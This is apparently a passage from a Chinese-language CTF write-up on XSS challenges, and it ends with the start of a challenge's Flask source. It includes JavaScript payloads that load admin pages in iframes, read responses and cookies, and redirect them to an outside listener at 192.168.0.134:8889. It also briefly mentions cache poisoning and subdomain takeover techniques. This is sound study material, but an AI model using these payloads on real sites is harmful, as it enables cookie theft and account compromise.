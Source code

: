 由于页面的沙盒设置，我们利用上面的同款方式进行绕过

```js
var ifm = document.createElement('iframe');
ifm.setAttribute('src','/admin/');
document.body.appendChild(ifm);
window.XMLHttpRequest = window.top.frames[0].XMLHttpRequest;
var xhr = new XMLHttpRequest();xhr.open("GET", "http://127.0.0.1:7443/admin/",false);
xhr.send();
c=xhr.responseText;
window.location.href="http://192.168.0.134:8889/?c="+c;
```

会得到一个新的hint

```
/?c=%20%20%20%20This%20website%20also%20have%20another%20page%20named%20mysecrecy_directory......
```

问题转变为获取`/admin/mysecrecy_directory`下的cookie内容

```js
var f= document.createElement('iframe');
f.setAttribute('src','/admin/mysecrecy_directory');
document.body.appendChild(f);
f.onload = function(){
var a= f.contentWindow.document.cookie;
location.href = "http://192.168.0.134:8889/?"+a;
```

payload只需要把之前的src改一下，在iframe加载的同时获取iframe中的cookie，并利用href跳转获取flag

参考：[wp](https://www.anquanke.com/post/id/220436)

## [uiuCTF 2021]YANA

写过太多次了，不详细展开了；关于缓存投毒 + 子域名接管 + XS-Leaks ≈ 寄

## [pbCTF 2021]TBDXSS

~~救啊 又是xss~~  给出了详细的源码，app.py+bot.js

https://blog.maple3142.net/2021/10/11/pbctf-2021-writeups/#tbdxss

https://blog.bawolff.net/2021/10/write-up-pbctf-2021-tbdxss.html

https://github.com/sambrow/ctf-writeups-2021/tree/master/perfect-blue-ctf/TBDXSS

```python
from flask import Flask, request, session, jsonify, Response
import json
import redis
import random
import os
import time

app = Flask(__name__)
app.secret_key = os.environ.get("SECRET_KEY", "tops3cr3t")  # session secret key

app.config.update(
    SESSION_COOKIE_SECURE=True,
    SESSION_COOKIE_HTTPONLY=True,
    SESSION_COOKIE_SAMESITE='Lax',  # samesite cookie lax
)

HOST = os.environ.get("CHALL_HOST", "localhost:5000")

r = redis.Redis(host='redis')   # 后端redis数据库

```